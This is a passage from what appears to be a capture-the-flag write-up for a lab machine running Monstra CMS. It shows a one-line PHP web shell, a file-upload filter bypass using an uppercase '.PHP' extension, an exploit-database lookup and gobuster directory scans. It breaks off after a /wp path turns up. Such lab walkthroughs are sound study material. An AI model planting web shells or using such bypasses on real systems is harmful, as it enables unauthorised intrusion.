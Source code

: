 ```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
```

However, this returns a `Forbidden file type` error? Maybe there is a way to bypass this? Since the Website has the version name printed everywhere, look for an exploit:

```bash
searchsploit monstra
```

![ss1](./tartarsauce/ss1.png)

Exploit 43348 looks like a winner:

- https://www.exploit-db.com/exploits/43348

The exploit walks through the bug in the following GitHub page:

- https://github.com/monstra-cms/monstra/blob/1ff51860eaba83e8ab91d5deb1d6b157e0847455/plugins/box/filesmanager/filesmanager.admin.php

The code only checks for lowercase names. This means uploading a `bubba.PHP` will work. Trying this this results in the same error? After messing aroun with the webpage, it seems like the permissions of the current Apache process do not have permissions to modify/create/delete files... Maybe this is just a distraction? Try looking for other services in the 2 known directories:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.webservices.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.88/webservices/ &
gobuster dir -t 50 -q -z -o gobuster.main.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.88/ &
```

This returns an interesting result under `webservices`:

```
/wp (Status: 301)
```

Browsing to that shows the following:
